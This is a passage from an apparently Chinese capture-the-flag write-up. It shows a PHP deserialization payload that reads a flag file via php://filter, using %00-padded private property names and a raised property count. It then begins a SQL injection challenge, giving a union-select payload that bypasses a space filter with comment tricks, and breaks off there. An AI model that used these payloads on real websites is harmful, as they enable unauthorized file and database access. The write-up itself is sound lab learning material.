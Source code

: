 我的php代码是这样的，不过看到一些wp上把序列字符串进行了urlencode，这里不加密也能执行

要注意的是生成的字符串如下

```
O:4:"body":2:{s:10:" body want";s:30:"php://filter/resource=f14g.php";s:17:" body todonothing";s:3:"123";}
```

由于变量的属性是private，在name里会有特殊字符不可见，应该将其修改为%00

才能生效

最后记得把属性个数加一

```
最终payload：?ywant=O:4:"body":3:{s:10:"%00body%00want";s:30:"php://filter/resource=f14g.php";s:17:"%00body%00todonothing";s:3:"123";}
```

## easy\_sql

sql题来咯！

![](./images/image-82.png)

随便测试一下，发现是字符型注入

而且空格被过滤了，用/\*\*/绕过

and居然也被过滤了

只能一个一个试了，发现有三列。

```
0'union/**/select/**/1,2,database()/**/where/**/'1
```

继续爆破

information\_schema也被过滤了。。。
